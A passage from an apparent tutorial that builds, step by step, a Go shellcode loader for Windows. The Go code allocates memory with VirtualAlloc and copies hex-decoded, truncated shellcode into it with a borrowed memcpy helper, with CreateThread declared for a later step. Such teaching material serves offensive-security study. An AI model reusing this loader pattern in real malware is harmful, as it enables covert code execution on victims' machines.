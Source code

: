 ```go
// memcpy in golang from https://github.com/timwhitez/Doge-Gabh/blob/main/example/shellcodecalc/calc.go
func memcpy(base uintptr, buf []byte) {  
	for i := 0; i < len(buf); i++ {  
		*(*byte)(unsafe.Pointer(base + uintptr(i))) = buf[i]  
	}  
}
```
Our code now looks like this:
```go
package main  
  
import (  
	"encoding/hex"  
	"fmt"  
	"golang.org/x/sys/windows"  
	"log"  
	"unsafe"  
)  
  
var (  
	kernel32 = windows.NewLazySystemDLL("kernel32.dll")  
	createThread = kernel32.NewProc("CreateThread")  
)  
  
func main() {  
	shellcode, _ := hex.DecodeString("505152535657556A605A6863616C6354594883...")  
	shellcodeExec, err := windows.VirtualAlloc(  
		uintptr(0), //[in, optional] LPVOID lpAddress,  
		uintptr(len(shellcode)), //[in] SIZE_T dwSize,  
		windows.MEM_COMMIT|windows.MEM_RESERVE, //[in] DWORD flAllocationType,  
		windows.PAGE_READWRITE, //[in] DWORD flProtect  
	)  
	if err != nil {  
		log.Fatal("Error while VirtualAlloc:", err)  
	}  
	fmt.Printf("Address: %x", shellcodeExec)  
	fmt.Scanln()  
  
	memcpy(shellcodeExec, shellcode)  
	fmt.Scanln()
}

// memcpy in golang from https://github.com/timwhitez/Doge-Gabh/blob/main/example/shellcodecalc/calc.go
func memcpy(base uintptr, buf []byte) {  
	for i := 0; i < len(buf); i++ {  
		*(*byte)(unsafe.Pointer(base + uintptr(i))) = buf[i]  
	}  
}
```
As before, I've added a `fmt.Scan.ln()` to act as a breakpoint. If you run it and look at the memory area previously allocated, you'll see our shellcode.
![](img4.png)
